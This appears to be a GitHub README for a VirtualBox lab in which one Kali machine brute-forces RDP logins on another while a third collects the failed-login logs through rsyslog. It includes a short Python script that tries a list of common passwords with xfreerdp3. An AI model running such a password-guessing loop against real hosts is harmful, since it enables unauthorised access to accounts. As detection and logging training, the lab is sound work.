 # 🔐 Linux-to-Linux RDP Brute Force Lab with Centralized Logging

This lab demonstrates a brute-force attack on an RDP-enabled Kali Linux machine from another Kali attacker machine. A third Kali machine acts as a **centralized log server** using `rsyslog`. The goal is to simulate failed login attempts, capture them via logs, and forward them to a centralized syslog server for monitoring.

> ⚠️ **Educational Use Only**  
> Do **not** use this on real or unauthorized systems.

---

## 🖥️ Lab Setup Overview

We will use **three Kali Linux VMs** connected via VirtualBox **NAT Network**:

| Machine Role        | Hostname      | IP Address Example |
|---------------------|---------------|---------------------|
| Attacker Machine    | `attacker` | `10.0.2.6`          |
| Victim Machine      | `kali-linux-2025`   | `10.0.2.5`          |
| Log Server Machine  | `kali-logger`   | `10.0.2.7`          |

---

## ⚙️ Step-by-Step Setup

### 1. 🧠 Create NAT Network in VirtualBox

- Open **VirtualBox** → `File` → `Tools` → `Network`.
- Create a **NAT Network** (e.g., `NatNetwork`).

### 2. 🛠 Assign NAT Network to All VMs

- For each VM, go to `Settings` → `Network` → Adapter 1.
- Set to **Attached to: NAT Network** and select `NatNetwork`.
  ![nat](https://github.com/user-attachments/assets/b37b819b-b5e0-40f2-b07f-c48faca03e72)


### 3. 📡 Check IP Addresses

Run this on each VM:

```bash
ip a
```
![Screenshot 2025-05-22 130803](https://github.com/user-attachments/assets/153a6a42-17ae-4b56-ae4a-55500699992f)


Note their IPs for future steps.

### 4. 📡 Enable RDP on Victim Machine
- Install and enable xrdp on the kali-linux-2025 machine:
```bash
sudo apt update
sudo apt install xrdp -y
sudo systemctl enable xrdp
sudo systemctl start xrdp
```
![2](https://github.com/user-attachments/assets/40fe63e3-f070-4d69-bb3e-fc3f8837df06)

- Check if RDP is listening:
```bash
sudo ss -tulpn | grep xrdp
```
![3](https://github.com/user-attachments/assets/a1139dd2-ace5-4080-b2b3-db20229db208)

### 5. 📡 Configure Centralized Logging (kali-logger)
On ```kali-logger``` (log server):

1. Install rsyslog
```bash
sudo apt update
sudo apt install rsyslog
```

3. Edit rsyslog config:
```bash
sudo nano /etc/rsyslog.conf
```
Uncomment or add these lines:
```conf
module(load="imudp")
input(type="imudp" port="514")
module(load="imtcp")
input(type="imtcp" port="514")
```
![4](https://github.com/user-attachments/assets/a056da09-bd34-4290-9467-34cf69edbff8)

3. Create a log directory for incoming logs:
```bash
sudo mkdir /var/log/remotelogs
sudo nano /etc/rsyslog.d/remote.conf
```
4. Restart ```rsyslog```
```bash
sudo systemctl restart rsyslog
```

---

### 📤 6: Configure Victim to Send Logs to Logger

1. Install rsyslog in the victim machine:
```bash
sudo apt update
sudo apt install rsyslog
```
Edit rsyslog config:
```bash
sudo nano /etc/rsyslog.conf
```
At the bottom, add:
```bash
*.* @@10.0.2.7:514
```
2. Restart rsyslog:
```bash
sudo systemctl restart rsyslog
```
3. Test log forwarding:
```bash
logger "Test message from kali-victim"
```
![5](https://github.com/user-attachments/assets/ac85fd88-4ddf-4722-ad10-43bba3c3a419)

Check on ```kali-logger```:
```bash
sudo tail -f /var/log/remotelogs/kali/syslog.log
```
![6](https://github.com/user-attachments/assets/cc15ec8f-d1f9-4b37-ae87-11ca7c182042)


---
### 🐍7: Brute Force Python Script (on kali-attacker)
Generally, ```freerdp3-x11``` is pre-installed in kali.
Now create the script:
```bash
nano rdp_brute.py
```
Paste this:
```bash
import os
import time

target_ip = input("Enter victim IP (e.g., 10.0.2.6): ")
username = input("Enter username: ")

passwords = [
    "123456", "password", "kali", "toor", "letmein",
    "qwerty", "admin", "root", "pass123", "test123"
]

for i, password in enumerate(passwords, 1):
    print(f"[{i}] Trying password: {password}")
    result = os.system(f"xfreerdp3 /v:{target_ip} /u:{username} /p:{password} +auth-only /cert:ignore")
    time.sleep(1)

```
Make it executable:
```bash
chmod +x rdp_brute.py
```
Run the attack:
```bash
python3 rdp_brute.py
```
![7](https://github.com/user-attachments/assets/70804431-5a68-4ece-9697-3b6ad91a52c0)


---

### 📋 8: Check Logs on Central Log Server
On ```kali-logger```, tail the logs:
```bash
sudo tail -f /var/log/remotelogs/kali-victim/syslog.log
```
### Look for failed RDP logon entries.
![8](https://github.com/user-attachments/assets/318d96b5-b1d0-42bc-97f0-e1b213ac7bcb)


## ✅ Summary
✅ Enabled RDP on Linux (xrdp)

✅ Configured rsyslog for centralized logging

✅ Ran brute-force Python script from attacker

✅ Verified log forwarding and detection

# ⚠️ Disclaimer
This lab is for ethical hacking and educational use only.
Never attack any system without explicit permission.


